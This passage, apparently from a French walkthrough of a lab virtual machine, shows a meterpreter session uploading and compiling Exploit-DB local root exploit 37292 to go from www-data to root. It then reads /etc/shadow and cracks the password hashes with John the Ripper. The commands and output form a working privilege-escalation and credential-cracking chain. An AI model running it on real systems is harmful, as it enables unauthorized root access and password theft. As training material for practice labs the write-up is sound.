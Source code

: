 Le premier exploit n'a pas fonctionné, mais le deuxième de la liste s'avère être le bon !

```console
meterpreter > upload /usr/share/exploitdb/exploits/linux/local/37292.c /tmp
[*] uploading  : /usr/share/exploitdb/exploits/linux/local/37292.c -> /tmp
[*] uploaded   : /usr/share/exploitdb/exploits/linux/local/37292.c -> /tmp/37292.c

meterpreter > shell
Process 1572 created.
Channel 5 created.

gcc /tmp/37292.c -o /tmp/37292

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

chmod +x 37292

./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

On en profite au passage pour consulter le fichier ```/etc/shadow```. Celui-ci contient les mots de passe hashés de chaque compte Unix, ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes. L'outil __John The Ripper__ est en mesure de cracker les mots de passe Unix si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow``` de la VM (respectivement psw et shw), comme suit...

```console
root@blinils:~# unshadow psw shw > login
root@blinils:~# john login
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
gsuser           (gsuser)
toor             (root)
2g 0:00:00:00 DONE 1/3 (2018-05-08 01:23) 40.00g/s 300.0p/s 320.0c/s 320.0C/s gsuser..toor
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

